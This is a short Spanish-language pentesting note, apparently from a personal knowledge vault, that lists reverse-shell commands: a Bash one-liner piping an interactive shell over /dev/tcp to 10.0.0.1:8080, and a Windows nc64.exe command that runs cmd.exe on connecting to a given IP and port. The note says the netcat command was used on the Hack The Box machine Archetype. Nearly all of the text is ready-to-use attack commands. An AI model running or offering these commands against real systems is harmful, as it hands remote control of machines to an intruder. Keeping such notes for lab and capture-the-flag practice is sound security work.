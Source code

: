 # Linux

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# Windows

## nc64.exe

Utilizando el binario de netcat para windows x64 podemos mandarnos una reverse shell. Se utiliza en [[Archetype HTB]].

```powershell
.\nc64.exe -e cmd.exe <ip> <port>
```

Con el parámetro `-e` indicamos que queremos ejecutar un archivo al conectarnos, en este caso una cmd.